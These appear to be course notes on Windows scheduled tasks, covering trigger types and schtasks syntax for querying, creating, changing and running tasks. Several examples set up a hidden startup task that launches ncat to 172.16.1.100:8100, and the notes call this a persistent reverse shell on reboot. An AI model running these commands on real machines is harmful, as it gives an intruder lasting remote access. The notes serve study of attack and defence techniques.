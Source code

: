 ```yaml
---
title: 06. Working With Scheduled Tasks
updated: 2025-05-08 01:24:34Z
created: 2025-05-08 00:42:32Z
---
```


## **Triggers That Can Start a Scheduled Task**

Scheduled tasks in Windows can be triggered in a variety of ways. These triggers define **when** a task will run:

- **System Event** – When a specific event is logged (e.g., service crash).
    
- **One-Time Schedule** – At a specific time and date.
    
- **Daily** – Runs once every day at a set time.
    
- **Weekly** – Runs on specified days of the week.
    
- **Monthly (By Date)** – Runs on a specific calendar date each month.
    
- **Monthly (By Day-of-Week)** – Runs on something like “second Tuesday.”
    
- **Idle State** – When the computer has been idle for a period of time.
    
- **On Task Registration** – Immediately after the task is created.
    
- **At System Startup** – As soon as the computer boots.
    
- **At User Logon** – When a specific or any user logs in.
    
- **Terminal Server Session Change** – When a user connects, disconnects, or switches sessions.  
    <br/>These triggers give you flexibility for automating tasks under nearly any condition.
    

* * *

## **Using `schtasks` – The Basics**

The `schtasks` command lets you **view, create, and modify** scheduled tasks from the command line. Below are the main operations:

* * *

### **View Existing Scheduled Tasks**

**Syntax Example:**

`SCHTASKS /Query /V /FO LIST`

**Useful Parameters:**

| Parameter | Description |
| --- | --- |
| `/Query` | Lists existing tasks. |
| `/FO` | Output format: `TABLE`, `LIST`, or `CSV`. |
| `/V` | Verbose output: shows all details. |
| `/NH` | Removes the column Headers (for `TABLE` or `CSV`). |
| `/S` | Remote system name or IP (`\\host`). |
| `/U`, `/P` | Credentials for remote system. |

**Sample Output:**

```txt
TaskName:    \Check Network Access
Next Run:    N/A
Status:      Ready
Task To Run: cmd.exe ping 8.8.8.8
Schedule:    At system startup

```

* * *

### **Create a New Task**

**At the very least, we need to provide the following parameters:**

- **/create**: to indicate the operation we're performing
    
- **/sc**: to define the schedule
    
- **/tn**: to assign a name
    
- **/tr**: to specify the action to execute
    

**Syntax Example:**

`SCHTASKS /CREATE /SC ONSTART /TN "My Secret Task" /TR "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`

**Key Parameters:**

| Parameter | Description |
| --- | --- |
| `/CREATE` | Tells schtasks to create a new task. |
| `/SC` | Schedule type (e.g., `ONSTART`, `DAILY`, `WEEKLY`). |
| `/TN` | Task name (must be unique). |
| `/TR` | The action to run (script or program). |
| `/RL` | Run level: `LIMITED` or `HIGHEST`. |
| `/Z` | Auto-delete task after it finishes. |
| `/U`, `/P` | (Optional) User credentials to run the task under. |

**Use Case Example:**  
Set up a persistent reverse shell on reboot:

`SCHTASKS /CREATE /SC ONSTART /TN "My Secret Task" /TR "ncat.exe 172.16.1.100 8100"`

* * *

### **Modify an Existing Task**

You can change the action or credentials of an existing task.

**Syntax Example**

`SCHTASKS /CHANGE /TN "My Secret Task" /RU administrator /RP "P@ssw0rd"`

**Other Options:**

| Parameter | Description |
| --- | --- |
| `/TN` | Task name to change. |
| `/TR` | New action to run. |
| `/ENABLE` | Enable the task. |
| `/DISABLE` | Disable the task. |

* * *

## **Verifying Task Changes with `/query`**

After modifying a task (such as changing the user or action it runs), you can **verify** the changes using:

`schtasks /query /tn "My Secret Task" /v /fo list`

This command queries the task by name (`/tn`), enables verbose output (`/v`), and displays it in list format (`/fo list`).

### Sample Output:

```txt
TaskName:         \My Secret Task
Task To Run:      C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Run As User:      SYSTEM
Schedule Type:    At system start up
Scheduled Task State: Enabled

```

## **Testing the Task Immediately**

To test whether a task actually runs successfully (especially after modifications), you can run:

`schtasks /run /tn "My Secret Task"`
